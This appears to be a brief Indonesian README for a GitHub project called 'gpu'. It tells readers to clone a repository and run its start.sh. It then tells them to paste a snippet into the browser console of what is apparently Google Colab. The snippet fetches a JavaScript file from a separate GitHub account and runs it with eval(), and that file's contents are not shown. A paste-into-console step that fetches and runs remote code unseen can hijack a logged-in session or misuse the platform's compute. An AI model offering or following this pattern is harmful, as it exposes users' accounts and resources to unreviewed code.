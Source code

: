 # gpu 
<br>
instalasi :
<hr>
git clone https://github.com/Kopen1/gpu && cd gpu && sh start.sh 
<br><br>
<h2> CONSOLE_COLAB <h2>
  <p> akses console : ctrl + shift + k 
    <br>
<br>
async function mode() {
let url = 'https://raw.githubusercontent.com/liebedevil/borr/main/netep.js'
let response = await fetch(url);
let script = await response.text();
eval(script);}
mode();

<br>

